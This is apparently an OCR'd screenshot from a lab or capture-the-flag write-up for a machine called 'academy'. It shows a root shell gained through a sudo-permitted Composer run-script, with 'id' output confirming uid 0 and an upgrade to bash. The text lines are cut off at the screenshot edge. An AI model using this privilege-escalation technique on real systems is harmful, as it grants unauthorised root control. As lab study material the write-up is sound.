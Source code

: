![](Maszyny/Linux/Academy/Pasted%20image%2020210904205348.png)

<cHgsv$ sudo composer --working-dir=$TF run-scr
PHP Warning: PHP Startup: Unable to load dynam
190902/mysqli.so.so: cannot open shared object
PHP Warning: PHP Startup: Unable to load dynam
ib/php/20190902/pdo_mysql.so.so: cannot open sh
Do not run Composer as root/super user! See htt
> /bin/sh -i 0<&3 1>&3 2>&3
# id
id
uid=0(root) gid=0(root) groups=0(root)
# /bin/bash
/bin/bash
root@academy:/tmp/tmp.w5WRFcHgsV# id
id
uid=0(root) gid=0(root) groups=0(root)
root@academy:/tmp/tmp.w5WRFCHgSV#
%% COMMENTED SECTION %%